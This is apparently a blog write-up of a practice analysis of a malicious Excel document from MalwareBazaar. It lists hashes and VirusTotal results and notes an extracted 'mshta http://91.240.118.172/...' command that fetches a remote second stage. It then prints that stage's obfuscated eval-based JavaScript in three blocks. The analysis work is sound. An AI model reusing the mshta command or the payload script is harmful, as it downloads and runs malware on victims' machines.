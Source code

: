 ```yaml
---
layout: page
title: Malware Analysis Practice(Maldoc) #1
permalink: /lemon-mockingbird-north-alanine
---
```


# Analysis of lemon-mockingbird-north-alanine

asparagus-potato-london-march is a sample I downloaded from MalwareBazaar that was uploaded by [@Cryptolaemus1](https://twitter.com/Cryptolaemus1/), a link to the sample is below. The bulk of this analysis is based on techniques I have learned from [@HuskyHacksMK](https://twitter.com/HuskyHacksMK)'s Practical Malware Analysis & Triage course.

Sample source: [https://bazaar.abuse.ch/sample/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7/](https://bazaar.abuse.ch/sample/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7/)

---

## Static Analysis xlsx file

### File Hashes
I pulled the below hashes using hashcalc.

- MD5: db00ce44029164d0695bafc91fa67413
- SHA1: a7c0195d74d5be9c44638957c704eb76ef749c17
- SHA256: c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7

### VirusTotal
I was able to find a hit when searching the file hash in VT. There is some good information, interestingly only 8/60 vendors flag the file as mailicious. 

VirusTotal - [https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7](https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7)

### Strings
I used strings to pull all strings from the sample. One string really stood out and it looked very useful.

cmd /c set kiki=mshta http://91.240.118.172/mm/nn/se.html & echo %kiki% | cmdB

From here I went out on a limb and guessed this was a second stage and used any.run to pull a copy the html file safely. The any.run analysis where you can download a copy of he.html is here: [https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/](https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/)

---

## Static Analysis second stage se.html
The first thing I did with the html file was to open it in Notepad++ in the hopes that it wouldn't be a mess of encrypted characters. I was met with an obfuscated script split up into 3 blocks.

Block 1
`	<script>
		l1l=document.documentMode||document.all;
		var f9f76c=true;
		ll1=document.layers;
		lll=window.sidebar;
		f9f76c=(!(l1l&&ll1)&&!(!l1l&&!ll1&&!lll));
		l_ll=location+'';
		l11=navigator.userAgent.toLowerCase();
		function lI1(l1I){return l11.indexOf(l1I)>0?true:false};
		lII=lI1('kht')|lI1('per');
		f9f76c|=lII;
		zLP=location.protocol+'0FD';
		edtsQwJ5y67d8=new Array();
		mX52Su5Km3cOV=new Array();
		mX52Su5Km3cOV[0]='w%36%38%33BC\115\104'   ;
		edtsQwJ5y67d8[0]='<!DOCTYPE html PUBLIC "-//W3C~DTD XHTML 1.0 Transitional~EN"~~\ntp:~w~B.w3.org/TR/x~\n~1/~D~N~Pl1-t~-~/~1~3~5l.dtd"><~W x~~/="~=~?~A~C~E~G~I/19~y~V~l~f~head~gscript>ev~6(une}ape(\'\\166%61%72%20}1}7}37%3D}"}+2}+3B}%}9},8},D}23}4r}9n}4}0Ef}62o}}.4}>68}E}} %}Po}E4e}"}93})}>2C},})}$2}7}3}E6}57}A28i}:},}$}3}r~},}!3}z}2}hB}r2}4|}"}77B}J1y},}0}4}-}57}h}97}.}3fu}E}E}>74}B}F}l}}#q}6},|"}9}g}|151f}]}"1d||}5me|!}J|2|144oc|6}Nent}W}.6F|365}"|"|"}&|?||K}|5}l|O|N||H|=}Tl}l|<|}46|A|57|Y|,|j4|[E|^Ew}A6||U|O}p|}h}0|}.|},|+}|\n3|\'||}}k}5n|W~2}l7{}#}%{}7|x|)|z}w}h}.2}zCs}"}!|{}}$}|!}"0styl}\\|}1}Z}l1spla{A|}Y|,{|m}/},E},}c70r}E|O3{A{#|}(|%}*}"|{}"Fp}2{.{A}x2F{{K{Q{$}T{{I{ |}\'2}w}z|JEew{(A}A} }T|%{7a|/|{G}J}!4{Wg{2|{?}b}/}E}!|\\}|4}{WEn|3}1}"}c{0|?|.}?|9z	}0{\nz\r}0z7zz46{;}Ke|e5g}B{|{|{},}>|6{A|N{m}#A{zz6z|\n{t}8t|Zlzzz;}5}z@{?}K|}4}\'}z|)|~H}]k}s3}u|e|\r}c}-{f{3}az1C{Gn{~}4h{e|,}a|||dz,3|}-|MFcu|8zza|}"Ezc|mtz_ezuz0|;{{|y}<4azc}}Tm{G}]z|z]%5BzS5{}~fz"{!8jzTzV}{9}xzZ1} }w|<z}|z\'zw}R|y{"zk|*|/|K}o}qy|}wzY|z.|+|-{Py={}}j}]z[|,})|yyyy|*zz\\yFByyzx{z0{|N{zt{9|fy}T|C|N{|~#~%yBy#{g}yyy;}yQz7A{{|~yp|}yr|\'))</}}}}}}}	d|Bzt|Ft~D}t}"<tab{- wi~ch=\'10}$\' b~Hderx0\'~g~[x$dxgcol~Hx#x}xx~6ign = \'cxxx#<y|G {*{,ex8\'xAt-family: Vxd~.a, {oi~6xYHelve~2cxXxC~.s-sxif; xIxjizexR12pxxox*x,rxR#Fwwxobackgro}d-x|~Hxx06x2>ThxFswrx< x*x of this pyxFw&w(w\nxcxx\'by <b~gxIxC{+xxwx~ wzaFCCwya~&Guardx\\nyxxI~g/w7w5brww ul~2maxw#ox+w`w-ow/t yw wFwoxxYiw]g}xYJa} }{5xcswuwwayzyw} linkvkeepxebwm|GxxpxOxrw\'aw{7wyz muchv~He.v&w5/wPw6wV<aw:xExGxxxJxx*~-~2~4xRn~4ex{x+ww@wwCx2~	refx~p~@/'   ;
		j7eCosn='fu'   ;
		dhQtYD1xY4Wvl='ecYo6L6'   ;
		i4CE51FAn='LwjfpUopMlQdbeohOiUJ'   ;
		j7eCosn+='nction oisT5kq'+'h7gMSHK(ejd1b4W'+'vdU27U){'   ;
		tsY5j35h1t7p='%69\146%28%7AL\120%2E\151%6Ed\145x%4Ff%28%27%5C%35%35%27%29%3E%30%29%7Be\144%74sQ\167%4A%35y%36%37d%38%5B%30%5D%3D%27x%27%7D%3B%76\141\162%20l%32%3D%77in\144o%77%2Eo\160%65\162a%3F%31%3A%30%3Bf%75%6E%63%74io\156%20c%36%37%66%39\146%28%29%7B%69f%28\146%39f%37%36c%29%7Bdo\143\165%6De%6E\164%2Ew\162i%74\145%28%6C%4F%29%7D%7D%3B%66%75nc\164%69o%6E%20l%33%28%6C%34%29%7Bl%35%3D%2F\172a%2Fg%3Bl%36%3DS\164\162i%6Eg%2Efro\155Ch\141\162C%6F\144%65%28%30%29%3B\154%34%3Dl%34%2Ere\160%6C\141%63\145%28l%35%2Cl%36%29%3B%76\141\162%20%6C%37%3D%6E%65\167%20A\162r%61y%28%29%2Cl%38%3D%5F%31%3D\154%34%2El\145n%67%74%68%2C\154%39%2C%6CI%2C\151%6C%3D%31%36%32%35%36%2C%5F%31%3D%30%2C\111%3D%30%2C%6C\151%3D%27%27%3Bd\157%7B%6C%39%3D%6C%34%2E\143ha%72C\157%64e%41t%28%5F%31%29%3BlI%3D\154%34'   ;
		function h7gMSHKoisT5kq(btU3p36){i4CE51FAn+=btU3p36};
		edtsQwJ5y67d8[0]+='~Bw.pw.vvF.x*mxx~Ixcx_x~.kx#wTw8~4wgxDw<xHvcxKxMxOxQxSxUxWxYx[x]wkx`xbxdxfsxhxjxlxnxpvh~0xtxvxxxzwmx}xvBwD0wwww\nwwv?w?x/0x1x">vM.Pw.WwJv%vUwOvcwQw7yxawQ~du%v,/xxe>");dl=xzs|8|G.{6yxs;oe=xzovNo}~-?1:u	xV=(u4xu7uOu6tMwne||uRx.~6l)&&!u>;wsu3xuS.wsz|{-uSById;wsu@vxvN~0xwr?~[uxuxLlxk;tN=~5vx5w^~H.uxkrAwsu7toLuCxCvza}u/xstt.uvexOf}}t}}yu>=0u}ru:tt{utxV;t58u3a;}rvsgx\';|nw0~_ }m(){vFturx7u~e}uruvuC~G}rw\nt?x9tKt8OFuuuBvNx,xev8nvOw.|Bx+t zt"t$}fxOeyu!=-1t/t1t3v=i7vHt5u`!ztct}tza~6tyxvy|<swgxxlI1lx#t>w(px*nvHu	sqy7tC;s"t:S~[vg.fw\nmChwJCuV(13,xs9s8xu/yr(it-;i<481sD++tNs"7+=s\'tWI~Xu2x\n"+"!--sXsNsYs\\sX~f";slsV/sb*s^s#sYsksYsi;~X11~ns}sbyu-+sss6)s|Is~2rza"xsXs}1(3r\'s\ry~sby|sdrssvsr~.v/{-xwL{4u9:v;}x?vPu,slsOx\n/r$wQrsYw)nu-sesgu2r1+sTsr6rsIs}Isvsb{4~.r0r2r=r(r?r.r0r7susWsYr@x7veu?\'t	~0bxO~1xQw%dxnx#qw}zasdzxcrsgItE}tH~4vstItM{sst{lxZt]{7}bvGv$Begv\',\'{vvr|r~r[qrys?ezdqzaqfvqyur11r=}wru~-y}~Wqw}qxdyqaqwqgqwLvqs?vVqu*{-qsq\'nputqpqsst=r2r\nu/sxtv!(q=1tNxexk~\':q=qrt{oq(|,qUqWs87qYq[qVq\\qZq]u/wU}zak;qKxF2qNsqPqqRrw38,}Fqq7s95qq1qu,9qz,{qy|,qavFaqdqf 3qiqrsqlrvq0,qopqp|,q|pq{q{q~ppza;qbpqet 4pqkqqnqpqrqrp4qxpq|pqvppqdxxLwZtp"p\np$p\r,pp<p;p>p=p@)sSrp8qmqr7l,sfpIssqxr4pJr2,r<pRrfpPstu/~XruNugu[ujEulxsunTyNxM}r7I[2])[0]q}pJr[7pmtE~H(tsCt<piu8|Fgw$tsKtNmq?qj[t]srqu2uZu7p^p`|Gpbypdgpf|8(pio\npww0aLq?oozazbos?(jsCj<oL;jo{o\'xsCxsF;xo1xm(m&Mw^hvOuC(2,xyv{pYrnpYl[jpqxpsr[m>oV4pm}oZsSsrnu/sfqAr1~XtMsestoaxktTwqewt}rqo^qzaxxpBrhtGtj sfo^{sr2op\\u7wqw*w}ssou5u[vvw}xOq?r2o$ohpTo"snw$pPsurw%{-sAu^oIrnuPx}}zaxp_z~x}rMqsTsn\rsg[s\\xOoo;!(ps~4f&rtN~[ynsTu\\n7|Fds1xOdorfvOu|GNuV.vF{5wenFlnHs}pIn,Iyv}tiqFetNo[ntvqGnnXufnu7n#w^qoon\'n*o_rfnoMs\\sgn3t%n5n7sn:qIn=rn?nXnB}znUnHnZnKvFnMnOnQ{6x<mqGnnn[pBn^h(n`{'   ;
		j7eCosn+='eva'   ;
		xH52oqTJ='DeUOHNVQOEJTWexYfVZQOcTKOwOt'   ;
		j7eCosn+='l(unes'   ;
		xB7jh5qz='m3cS2JN62'   ;
		j7eCosn+='cape(ejd1b4WvdU27U))}'   ;
		xB7jh5qz+='uZ0FLiBTY'   ;
		eval(j7eCosn);
		xXeharPxFbO='LDhOjIdZoHHnZVMRvMvauGyZODOYiLvOPjv'   ;
		j7eCosn=''   ;
		tsY5j35h1t7p+='%2E\143%68%61%72\103od%65%41t%28%2B%2B%5F%31%29%3B%6C%37%5B\111%2B%2B%5D%3D\154I%2Bil%2D%28%6C%39%3C%3C%37%29%7D\167h%69%6C\145%28%5F%31%2B%2B%3C\154%38%29%3Bv\141\162%20\154%31%3D%6Eew%20\101\162%72a%79%28%29%2C\154%30%3D\156%65\167%20A%72\162%61y%28%29%2C%49\154%3D%31%32%38%3B%64\157%7Bl%30%5B%49%6C%5D%3DSt%72i%6E\147%2E\146rom%43har%43o\144e%28\111\154%29%7D\167\150il\145%28%2D%2D%49l%29%3B%49%6C%3D%31%32%38%3Bl%31%5B%30%5D%3D%6C\151%3D%6C%30%5Bl%37%5B%30%5D%5D%3B%6C\154%3D%6C%37%5B%30%5D%3B%5Fl%3D%31%3Bva%72%20\154%5F%3D%6C%37%2E%6Ce%6Egth%2D%31%3Bw\150%69le%28%5F\154%3Cl%5F%29%7Bswitc%68%28%6C%37%5B%5Fl%5D%3CI\154%3F%31%3A%30%29%7B%63a%73\145%20%30%20%3A%6C%30%5BI\154%5D%3Dl%30%5B\154l%5D%2BStr\151\156\147%28l%30%5B%6C%6C%5D%29%2E%73%75%62s\164r%28%30%2C%31%29%3B\154%31%5B%5F'   ;
	</script>`
Block 2
`	<script>
		eval(unescape('f\165n%63%74\151\157n%20yI%36Q%51%36%20%20%20%20%28\164%33%50%35FFQ%56%29%7B\150%76%43E\125%35Z\105\115M%4B\102%32%3Dt%33%50%35FF\121%56%7D%3B'));
		qeb6lGDCHLg341R='l'   ;
		xB7jh5qz+='q3rKC46b'   ;
		mX52Su5Km3cOV[0]+='%72%30o%4B%31%31%35%67B'   ;
		edtsQwJ5y67d8[0]+='o[tWtFrjx7o`rouAuw~GmtwZlu0nzaxuE|Fm&sgm)nix|r~1u?nm\'tXtfu\\{-rp{m6m/mrioxn,qAo|wJ t"~[aFri1C|G|Gt-m@owtIrqmDsmH~-mKtG}bmOp{0mRmrlpZe,p,cnn?n4m"tZuyvwJtNv%vtyXdjnS|GwFostoMppqmh}x`qLtOcvHon"pxR~.wstMvTl	nTvcmHwIlF~-guS(mhsDt%p=t-mqm	xnNxtpmtr|q\n(wf,n`tWo;l=qI{mr~/xtl(v$l*ll-s-ivtmoul0lrl4mnDml+lCllrlGw)m\ntnOmsl7l9vFl;l,v%}v3Sixs+pBoZm(xuunam`oxr	o(tNx o?w$nP~.xtLu/dp8Dnllujojott%o)l2tNo=s)}zbs-s/s1s3s5lpoAfx,pyr*25+|Nn\\lxF{kks-ks@kd*os0rza\'tDosPou=k+k-=ol/kzalNkk.k*k0tWtPtRx7k1lpzy}w!xtYvN}dExb|GLw&xt\\ty\'wvGveq\rtNmlkErYkHxkK{*|Fx}x,q pRrm,tpBk o;{+kAw"lu\\kYkItk\\kMxkOkQtu}kU{knkFkZkJkLk^s@\'kaq\rkcqkesl.khkjk@olw"kWu\\txv!k~tkvtqkxkTyu{jw^jhj}~4jqzassn[ljtIq@roqHsCutwwt\ntrt\rttu[ttr^rtxkodo;jmnu{tNj,2k2(jv!s/mj,3jFjm,~-jCrq=4jFk|sgu`qHtyjTjRq>1jFutpxt#t%np{vwJit+l3jLjFmq>ku`}jbtrjeixFxjjoHj,xk9xck;vrq}ry{}	w5s>mmBrmron>oIqsuknon\'|Gunupk`sfq<il"ml%vFmoxbmpYqIn]w^n_t]rliisziy~}vlwIue"VBSi.t~f\r\n i=i>WkD.Rel^xtTo piIi;i>i?iAuUxbiG -4xiJiTiVi;	i=i;COx8~ $c3x}{LOkoNijoBoik}ihinimikipirs)itikivioiqk1ki{ilinixk1hi}h}ghhi}}\'~\nhiwh~>hi~irvK9~(2iU.st8h} /mm/nnyyv%pzbk()\'nPvm}\'hh	qzax:q"i;A~x9~;-v;t"~1ibcsu\'(h6hhJirNehLhiii|h\rirwhP}-ObjhWechWhWwgNh`hRhhirxchW.WhdiuhTk1twh1nRx<}hWh8h.;h;\nCMi`~;ic4xbChWvhmhShghpnghfhk1t).DghhuCgho}nlgg	ishegiroh0m\rnShug ghwh:i;GNh~I`E`XibJI|g0g2X~;+ia~;g,Ah~$g6uMicqxgza,ic3iSJovh9u/hzJHWET5JQ35UgYW5Hi`h= g=h|gd i^ggGgAg=g-i;WSi`s1s@87) &ghhgtrgg"sxggkiCxbvx	.~>iu.gggs(8g}gyfx4gwg="x`~}i;oh SfHRTJKTSf!ARgax9ClhZjh^ongp)i;REgSEfgYf gTgSAWgrg{(f49gwff?fBfDgzs@5k&fHffAfCgxfI(fGfQfOyv+fNfFfPfEs@fTf\\(}myvfUf?xqIfXfd|?fMfh5fjs@frzaf0qIfcfn08fpfdfvfmrri;fff f"f$Kf&HiB} f3f5f7Qf9Wf;f=g=gSgUgWgYg[g]Qg_HxYfAfwiZghx,xkiLi>i+y|w5~\na:wzvtitIs"o~#A~;e+ie-~4~5|8~nipnjwe4n7e,w^~_~nu:rkCx~nxxy~;wx5~\neJ0eLwQe(e*eAe6eC~4eT}za}w6wnyu!e_eT~|> '   ;
		h7gMSHKoisT5kq('p20qO4m3u43');
		tsY5j35h1t7p+='%6C%5D%3Dl%30%5B%49l%5D%3Bif%28l%32%29%7B%6C%69%2B%3D%6C%30%5B\111\154%5D%7D%3B%62%72\145\141\153%3Bdefa%75\154t%3Al%31%5B%5F%6C%5D%3D\154%30%5Bl%37%5B%5F%6C%5D%5D%3B\151f%28%6C%32%29%7Bli%2B%3Dl%30%5B%6C%37%5B%5F%6C%5D%5D%7D%3Bl%30%5BI\154%5D%3D\154%30%5Bl%6C%5D%2B\123%74\162i%6Eg%28l%30%5B\154%37%5B%5Fl%5D%5D%29%2E\163\165%62\163%74r%28%30%2C%31%29%3B\142%72\145ak%7D%3BIl%2B%2B%3Bll%3D\154%37%5B%5F\154%5D%3B%5Fl%2B%2B%7D%3B\151f%28%21l%32%29%7Bre%74urn%28l%31%2E\152o%69%6E%28%27%27%29%29%7De\154s\145%7B\162e\164u%72n%20%6Ci%7D%7D%3B\166ar%20\154%4F%3D%27%27%3B%66o%72%28%69\151%3D%30%3Bi\151%3C\145%64tsQwJ%35\171%36%37d%38%2El\145n\147%74h%3B%69i%2B%2B%29%7B%6C%4F%2B%3D\154%33%28%65d\164%73%51wJ%35\171%36%37\144%38%5B%69%69%5D%29%7D%3Bc%36%37f%39%66%28%29%3B'   ;
	</script>`

Block 3
`		<!--qYjXd1OND0RNWf38O8O2-->
	<script>
		xXeharPxFbO      ='xOCSHOGNQcIIrMZITOaeWwlCcXOtEFZPOZdMOUjitamfrYGPd'   ;
		oisT5kqh7gMSHK  (tsY5j35h1t7p);
		yI6QQ6   (tsY5j35h1t7p);
		h7gMSHKoisT5kq    (xH52oqTJ);
		iTyx7jacEB7sp804='s1m44XF7ZiYSVix800CGQF7mIXd'   ;
		eval(unescape('%71%79%36%28%22%63%37%39%38%66%62%36%39%66%22%29%3B'));
		qeb6lGDCHLg341R+='GqMoOOYlEKDQjuvOcotoNcoOPbqmOkFMyHXydOOtgYLMpsFxOOQdBddbblnXIPJCOuVLqUOTaxdOxDrmfFjOuOwOYfrwOewuwyiOJMjeL'   ;
		xB7jh5qz+='wf46Om'   ;
	</script>`